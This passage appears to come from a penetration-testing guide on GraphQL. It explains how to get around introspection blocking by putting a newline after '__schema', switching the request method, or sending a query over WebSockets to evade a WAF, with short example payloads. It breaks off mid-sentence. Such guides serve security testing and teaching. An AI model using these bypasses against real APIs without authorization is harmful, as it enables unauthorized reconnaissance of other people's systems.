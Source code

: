 To bypass restrictions on introspection queries in APIs, inserting a **special character after the `__schema` keyword** proves effective. This method exploits common developer oversights in regex patterns that aim to block introspection by focusing on the `__schema` keyword. By adding characters like **spaces, new lines, and commas**, which GraphQL ignores but might not be accounted for in regex, restrictions can be circumvented. For instance, an introspection query with a newline after `__schema` may bypass such defenses:

```bash
# Example with newline to bypass
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

If unsuccessful, consider alternative request methods, such as **GET requests** or **POST with `x-www-form-urlencoded`**, since restrictions may apply only to POST requests.

### Try WebSockets

As mentioned in [**this talk**](https://www.youtube.com/watch?v=tIo_t5uUK50), check if it might be possible to connect to graphQL via WebSockets as that might allow you to bypass a potential WAF and make the websocket communication leak the schema of the graphQL:

```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
  var GQL_CALL = {
    extensions: {},
    query: `
        {
            __schema {
                _types {
                    name
                }
            }
        }`,
  }

  var graphqlMsg = {
    type: "GQL.START",
    id: "1",
    payload: GQL_CALL,
  }
  ws.send(JSON.stringify(graphqlMsg))
}
```

### **Discovering Exposed GraphQL Structures**

When introspection is disabled, examining the website's source code for preloaded queries in JavaScript libraries is a useful strategy. These queries can be found using the `Sources` tab in developer tools, providing insights into the API's schema and revealing potentially **exposed sensitive queries**. The commands to search within the developer tools are:
